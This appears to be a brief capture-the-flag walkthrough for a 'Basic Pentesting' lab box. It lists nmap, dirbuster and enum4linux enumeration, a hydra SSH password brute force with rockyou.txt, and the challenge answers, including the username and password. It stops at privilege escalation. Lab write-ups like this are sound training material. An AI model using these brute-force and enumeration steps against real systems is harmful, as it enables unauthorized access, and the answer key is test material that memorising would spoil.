 # Basic Pentesting

## [Task 1] Web App Testing and Privilege Escalation
1. Deploy the machine and connect to our network
2. Find the services exposed by the machine
    - `nmap -sV BOX_IP`
    - 22, 80, 139, 445, 8009, 8080
3. What is the name of the hidden directory on the web server (enter name without /)?
    - `dirbuster`
    - development
4. User brute-forcing to find the username & password
    - `enum4linux -a BOX_IP`
    - `hydra -l jan -P rockyou.txt ssh://BOX_IP`
5. What is the username?
    - jan
6. What is the password?
    - armando
7. What service do you use to access the server (answer in abbreviation in all caps)?
    - ssh
8. Enumerate the machine to find any vectors for privilege escalation
    
